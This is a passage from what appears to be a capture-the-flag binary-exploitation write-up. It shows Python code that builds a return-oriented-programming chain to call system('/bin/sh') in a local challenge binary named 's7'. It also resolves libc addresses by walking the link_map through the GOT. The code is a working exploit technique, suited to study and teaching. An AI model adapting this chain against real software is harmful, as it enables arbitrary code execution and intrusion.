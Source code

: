 This is the python code to execute the shell:

```python
def execute_shell(system_addr, bin_sh_addr):
    payload = bytes('A' * 32, 'utf-8')

    payload += rop(
        0x42424242, # frame pointer
        0x00400703, # pop rdi; ret;
        bin_sh_addr,
        0x00400704, # ret (padding)
        system_addr, 
        0x0040060d, # main again
       )
    
    s7.sendbinline(payload)

    s7.tryexpect("If you're cool you'll get a shell.\n"
                 "(.*)\n?"
                  ,exitwithprogram=False
                 )

    result = str(s7.match.group(1), 'utf-8')

    return result
```

## Putting pieces together

The main python function looks like this (edited for brevity):

```python
def rop(*args):  
        return struct.pack('Q'*len(args), *args)
        
libc_map = LibcMap()
setup = binexpect.setup("./s7")
s7 = setup.target()
s7.setecho(False)
s7.tryexpect("Welcome Stranger")
s7.tryexpect("What is your password?")

while True:

    try:
        base = 0x00400000
        got_plt = 0x00601000
        link_map = get_link_map(got_plt)
        libc_base, libc_dynamic = get_libc(link_map)
        libc_map.base = libc_base
        system = libc_map.get("system")
        lldiv = libc_map.get("lldiv")
        if system == None or lldiv == None:
            strtab, symtab = get_str_symtab(libc_dynamic)
            if system == None:
                system = get_symbol(b"system", strtab, symtab, libc_map)
            if lldiv == None:
                lldiv = get_symbol(b"lldiv", strtab, symtab, libc_map)

    except Exception as e:
        setup = binexpect.setup("./s7")
        s7 = setup.target()
        s7.setecho(False)
        s7.tryexpect("Welcome Stranger")
        s7.tryexpect("What is your password?")
```
